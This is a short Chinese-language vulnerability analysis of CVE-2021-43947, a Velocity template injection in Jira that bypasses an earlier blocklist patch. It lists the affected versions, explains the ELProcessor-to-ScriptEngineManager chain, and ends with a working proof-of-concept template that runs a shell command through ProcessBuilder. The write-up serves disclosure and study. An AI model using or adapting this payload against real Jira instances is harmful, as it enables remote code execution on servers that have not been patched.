 - [CVE-2021-43947-模板注入](#cve-2021-43947-模板注入)
  - [影响版本](#影响版本)
  - [原理分析](#原理分析)
    - [javax.script.ScriptEngineManager](#javaxscriptscriptenginemanager)
    - [POC](#poc)
  - [参考](#参考)
# CVE-2021-43947-模板注入
该漏洞是针对CVE-2021-39115的绕过,这次补丁中在`velocity.properties`的黑名单中又新增了几个类
```
webwork.util.ValueStack,
javax.el.ELProcessor,
javax.script.ScriptEngineManager,
java.lang.ProcessBuilder,
javax.el.ImportHandler,
javax.el.ELManager
```
## 影响版本
* version < 8.13.15
* 8.14.0 ≤ version < 8.20.3
## 原理分析
还是利用jirautils.loadComponent,获取一个EL表达式对象,然后通过forName获取ScriptEngineManager类来执行JavaScript函数RCE.
### javax.script.ScriptEngineManager
ScriptEngineManager是JAVA6加入的JavaScript语言的脚本引擎.
可以通过三种方式来获取引擎:
脚本名称: `ScriptEngine engine = new ScriptEngineManager().getEngineByName("JavaScript");` 
文件拓展名: `ScriptEngine engine = new ScriptEngineManager().getEngineByExtension("js"); `
MIME类型: `ScriptEngine engine = new ScriptEngineManager().getEngineByMimeType("text/javascript");`
### POC
```vm
#set ($elparser = $jirautils.loadComponent('javax.el.ELProcessor',$i18n.getClass()))
#set ($code = "{''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(|new java.lang.ProcessBuilder['(java.lang.String[])'](['touch','/tmp/poc']).start()|)}")
#set ($code = $code.replace('|', '"'))
$elparser.eval($code)
```
## 参考
https://jira.atlassian.com/browse/JRASERVER-73067
